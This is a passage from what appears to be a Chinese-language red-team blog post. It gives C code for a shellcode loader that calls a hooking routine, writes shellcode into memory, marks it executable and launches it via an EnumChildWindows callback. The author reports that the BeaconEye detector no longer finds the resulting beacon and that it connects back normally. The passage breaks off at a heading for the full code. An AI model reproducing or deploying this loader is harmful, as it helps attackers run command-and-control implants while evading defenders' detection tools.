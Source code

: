 最后我们执行 Shellcode 即可，在执行 shellcode 之前调用 HookTest 即可。

```bash
int main(){
    HookTest();
    unsigned char dll[263168] = {shellcode}
    SIZE_T size = sizeof(dll);
    SIZE_T bytesWritten = 0;
    DWORD oldProtect = 0;
    void* sh = VirtualAllocEx(GetCurrentProcess(), 0, (SIZE_T)size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    WriteProcessMemory(GetCurrentProcess(), sh, dll, size, &bytesWritten);
    VirtualProtectEx(GetCurrentProcess(), sh, size, PAGE_EXECUTE_READ, &oldProtect);
    EnumChildWindows(NULL, (WNDENUMPROC)sh, NULL);
}
```

然后我们使用 BeaconEye 扫描，可以看到已经扫描不到了。

[![](assets/1706496840-53f457383f1874b84ff2b80250d1890f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094514-8cc0178a-bbec-1.png)  
正常上线：

[![](assets/1706496840-678703dc9132291d6df87693856ab63c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126094519-8fedaf9e-bbec-1.png)  
完整代码：
